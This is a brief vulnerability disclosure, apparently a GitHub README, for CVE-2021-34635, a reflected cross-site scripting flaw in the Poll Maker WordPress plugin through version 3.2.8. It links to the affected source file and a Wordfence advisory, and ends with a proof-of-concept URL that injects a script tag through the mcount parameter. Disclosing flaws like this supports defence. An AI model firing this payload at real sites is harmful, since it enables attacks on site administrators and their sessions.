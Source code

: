 <h2>CVE-2021-34635</h2>

The Poll Maker WordPress plugin is vulnerable to Reflected Cross-Site Scripting via the mcount parameter found in the ~/admin/partials/settings/poll-maker-settings.php file which allows attackers to inject arbitrary web scripts, in versions up to and including 3.2.8.

Hyperlink:<br>
`https://plugins.trac.wordpress.org/browser/poll-maker/tags/3.2.8/admin/partials/settings/poll-maker-settings.php#L249`
`https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34635`

POC:<br>
`http://ip:port/wp-admin/admin.php?page=poll-maker-ays-settings&del_stat=1&mcount=<script>alert(/test/)</script>`


